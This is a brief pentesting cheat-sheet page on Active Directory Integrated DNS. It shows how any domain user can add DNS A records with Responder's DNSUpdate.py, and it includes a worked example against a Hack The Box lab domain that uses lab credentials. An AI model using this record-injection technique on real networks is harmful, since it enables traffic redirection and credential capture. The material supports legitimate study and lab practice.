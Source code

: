 # [Active Directory Integrated Domain Name Service (ADIDNS)](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/active-directory-integrated-dns-zones)

> Domain name service integrated into Active Directory.

---

## Add Record to ADIDNS Server

By default, any domain user can add a record to an ADIDNS server. To do so from a Linux machine:

```bash
python3 /usr/share/responder/toolsDNSUpdate.py -DNS $ADIDNS_SERVER -u '$DOMAIN\$USERNAME' -p '$PASSWORD' -a ad -r $HOSTNAME -d $IP_ADDRESS
```

This will add the A record `$HOSTNAME.$DOMAIN` -> `$IP_ADDRESS`.

For example, tthe following command will add the A record `webtgihf.intelligence.htb` -> `10.10.10.10`.

```bash
python3 /usr/share/responder/toolsDNSUpdate.py -DNS dc.intelligence.htb -u 'intelligence.htb\Ted.Graves' -p 'Mr.Teddy' -a ad -r webtgihf -d 10.10.10.10
```
